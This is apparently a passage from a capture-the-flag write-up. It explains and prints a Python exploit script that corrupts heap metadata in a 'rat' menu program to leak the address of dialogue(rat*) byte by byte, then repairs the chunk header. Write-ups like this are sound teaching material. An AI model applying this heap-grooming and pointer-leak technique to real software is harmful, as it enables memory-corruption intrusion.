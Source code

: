 this is not too difficult luckily, we know that `0x31` occurs at the 25th to
32nd character of the name. also, as the `rat_pointers` address will be
refreshed, we don't have to worry about the nullbyte.

also, while we're here, we should probably be reading the address of dialogue,
as it's actually in the binary. therefore, the base address of the binary in
memory is easier to determine.

below is the new code that leaks the address of `dialogue(rat*)`

```py
dialogue_ptr_bin = b''
addr_regex = re.compile(b"b*(.)\.\n")

for i in range(8):
    get_dialogue_ptr = [
        b'3\n1\n', # rename rat at index 1
        b'b' * (name_len_to_leak_dialogue + i) + b'\n', # remove characters leading up to
                                                     # saved stack addr, leak
                                                     # the i-th character
        b'2\n1\n', # greet the rat at index 1
    ]
    io.send(b''.join(get_dialogue_ptr))
    # print(io.recvuntil("bbbbbbbb"))
    io.recvuntil("bbbbbbbb")

    dialogue_ptr_str = io.recvline()
    print(dialogue_ptr_str)

    dialogue_ptr_bin = addr_regex.match(dialogue_ptr_str).group(1) + dialogue_ptr_bin
    print(f"current dialogue_ptr=0x{dialogue_ptr_bin.hex()}")

    del_rat = [
        b'3\n1\n', # rename rat at index 1
        b'b' * name_len_to_restore_heap,
        p64(0x31) + b'\n', # restore heap header thing
        b'4\n2\n', # delete rat at index 2
        b'1\n', # create rat at index 2, hopefully in old spot
        b'overwrite me :)\n',
    ]

    io.send(b''.join(del_rat))

# not likely to have `b`, it may but not usually
dialogue_ptr_bin = dialogue_ptr_bin.replace(b'b', b'')
dialogue_ptr = int.from_bytes(dialogue_ptr_bin, "big")

print(f"""
---[ recieved addr ]---
dialogue_ptr (bin) = {dialogue_ptr_bin}
dialogue_ptr (hex) = {hex(dialogue_ptr)}""")
```
